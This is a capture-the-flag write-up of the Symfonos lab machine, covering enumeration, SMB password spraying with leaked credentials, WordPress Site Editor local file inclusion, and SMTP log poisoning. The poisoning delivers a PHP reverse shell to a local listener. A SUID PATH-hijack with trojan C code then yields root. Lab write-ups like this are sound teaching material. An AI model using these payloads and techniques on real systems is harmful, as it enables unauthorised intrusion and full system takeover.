

# Symfonos
**Writeup | Ethan Michalak**

## Nmap Scan

The Nmap `nmap -sC -sV IP` has revealed four services
1. 22 - SSH
2. 25 - SMTP
3. 80 - HTTP
4. 139 - Samba
5. 445 - Samba

## Service Enum
### http
The most interesting of the bunch is port 80 and 445, however the default web page looks like this

Similarly the code of the website is not that interesting either which is revealed by a 
`curl -i http://IP`


### SMB
An anonymous smblisting `smbclient -L //IP` however has some interesting information

There is an **anonymous share!**
We can login into this share with 
`smbclient //192.168.1.106/anonymous --user anonymous%anonymous`


This attention.txt reveals a sort of password policy where users are not supposed to use the following passwords
- epidioko
- qwerty
- baseball

To our advantage we can use this information leak as a password list and spray it at the rest of the services.  Starting with SMB

**Nice!** We were able to successfully login into the helios share with
`smbclient //192.168.1.106/helios --user helios%qwerty`

One of the files from the share 'todo.txt' reveals a hidden directory */h3l105* now lets go back to our webserver

## http extended
A look at our /h3l105 reveals a seemingly default wordpress blog


The tool **whatweb** confirmed this is indeed wordpress and version 5.2.2
`whatweb -a 3 http://192.168.1.106/h3l105`

Another tool **Nikto** reveals a few directories worth looking at
`nikto -h http://192.168.1.106/h3l105`


The site path
**/h3l105/wp-content/uploads**
houses an interesting plugin called Site Editor which is something we would want to poke at given plugins are typically vulnerable
 
 ## Exploitation
 ### Searchsploit Site Editor
 A quick searchsploit on "Wordpress Site Editor" shows us some exciting options
 `searchsploit Wordpress Site Editor`
 
 
 We can take a look at our first option by typing
 `searchsploit -x 44340`
 
 
 ### Local File Inclusion
 
The proof of concept edited to fit our scenario turns into
`http://192.168.1.106/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`


But now we have LFI so what?
What can we do with reading files?
My first extinct was to grab the **wp-config.php** file which houses the database password and other goody information, however permissions were configured correctly...
URL payload =
`../../../../../../../wp-config.php`


### log poisoning

If you recall there is a service we haven't messed with yet sitting on port 25, *SMTP*
which allows for the transfer of emails.

What if we were to send an email containing maliscious PHP code and then have our webserver read it with LFI?
Well...good things for us but bad things for blue team

Lets start by connecting to SMTP and saying **helo**
`telnet 192.168.1.106 25`

and then check in on our pal "helios"
`VRFY helios`

So now we have all the ingredients to send an email over the cmdline!
The domain and the inbox
`helios` + `symfonos.localdomain`

Here is the email I sent, lets break it down


My Email has three ingredients
- The sender indicated by mail from:
- The receiver indicated by rcpt to:
- the subject which contains my maliscious php code

`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.101/4444 0>&1'"); ?>`

This php code is telling bash to connect to my IP over PORT 4444, in metasploit terms its *LHOST* and *LPORT* right?

Now we cross our fingers and test it, lets open the port here...
`nc -lvnp 4444`


**Lets Go!** After changing our URL payload to helios's mailbox we get the connection!!!


## Privilege Escalation
### SUID search
A SUID binary is an executable with the special S permision which means it can execute as root without a password.  As such we love these.
A quick search for them reveals
`find / -type f -perm -4000 2>/dev/null`


### /opt/statuscheck

The most interesting of these SUID binaries is '/opt/statuscheck' as its not a default linux binary.  Running the binary confirms this suspiscion 


It seems the custom binary was created to detect downtime on the webserver...however uses **curl** to make the request.  We can confirm this by running strings on the binary and simply recreat the output with:
`curl -I localhost`

So we know it uses curl so what?
Lets ask ourselves a question, How does it know which curl to use?
*Can we change which curl it uses?*

We are in luck because we can...
In linux, an environmental variable called "$PATH" contains a list of directories to search for binaries.  We can edit our own PATH to contain a directory that is writable by us such as /tmp


Now we just need our trojan curl

```
#include <stdio.h>
#include <stdlib.h>

int main() {
	setuid(0);
	setgid(0);
	system("/bin/bash");
}
```

Incredibly simply yet effective, all this C code is doing is setting our uid and gid to that of roots and executing /bin/bash

After writing and saving the code above as priv.c, I had to transfer the file over.  The easiest method in my opinion is to start a mock webserver and execute a webrequest from the victim machine to grab the file
*To start the mock webserver*
`python3 http.server 80`
*To request the file*
`curl http://192.168.1.101/priv.c`

Now we have the priv.c on our victim machine we have to compile it as curl


Finally lets give this baby a whirl by running /opt/statuscheck


**Praise the gods!** We are root